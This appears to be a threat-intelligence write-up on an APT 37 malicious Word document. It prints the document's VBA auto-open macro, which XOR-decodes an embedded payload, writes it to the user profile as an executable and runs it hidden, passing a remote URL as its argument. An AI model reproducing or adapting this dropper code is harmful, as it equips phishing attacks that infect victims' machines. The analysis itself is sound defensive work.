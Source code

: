 ## APT 37 strike again 
## Table of Contents
* [Malware analysis](#Malware-analysis)
* [Cyber kill chain](#Cyber-kill-chain)
* [Indicators Of Compromise (IOC)](#IOC)
* [References MITRE ATT&CK Matrix](#Ref-MITRE-ATTACK)
* [Links](#Links)
  + [Original Tweet](#tweet)
  + [Link Anyrun](#Links-Anyrun)
  + [Articles](#Articles)

<h2>Malware analysis <a name="Malware-analysis"></a></h2>
<h6>The initial vector is an maldoc with a macro. This launches an auto-open method for decrypt the next stagger, save it and execute it in push as argument the URL to contact. This saves the modification on the document for avoiding to be executing a second time by the victim.</h6>

```vb
Private Sub Document_Open()
    Dim n As Long
    Dim cLine As String
    Dim path As String
    If Image1.Width > 2 And Image1.Height > 2 Then
        Image1.Width = 1
        Image1.Height = 1
        Image2.AutoSize = True
        With ActiveDocument.Content
            .Font.ColorIndex = wdBlack
        End With
        path = save2file()
        cLine = "cmd /c cd /d %USERPROFILE% && ren up.txt up.exe && up http://mydownload-202001.c1.biz"
        n = Shell(cLine, vbHide)
    End If
    ActiveDocument.Save
End Sub
```

<h6>The called method parsed the data and xor by a common value used by North Korean ATP (0XFF). This saves the result on a file on the user profile executing the payload.</h6>

```vb
Function save2file() As String
    Dim nIndex As Long
    Dim path As String
    Dim vbuffer As String
    Dim output() As String
    path = Environ("USERPROFILE")
    path = path & "\up.txt"
    vbuffer = "B2&A5&6F&FF&FC&FF&FF&FF&FB&FF&FF&FF&00&00&FF&FF&47&FF&FF&FF&FF&FF&FF&FF&BF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF"
    [...]
    vbuffer = vbuffer + "88&8C&8F&8D&96&91&8B&99&BE&FF&FF&FF&A9&9A&8D&AE&8A&9A&8D&86&A9&9E&93&8A&9A&A8&FF&FF&FF&6F&FF&FF&F3&FF&FF&FF&1D&C6&27&C4&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF"
    output = Split(vbuffer, "&")
    Open path For Binary As #1
    For nIndex = LBound(output) To UBound(output)
        Put #1, , CByte(("&H" & output(nIndex)) Xor &HFF)
    Next nIndex
    Close #1
    save2file = path
End Function
```
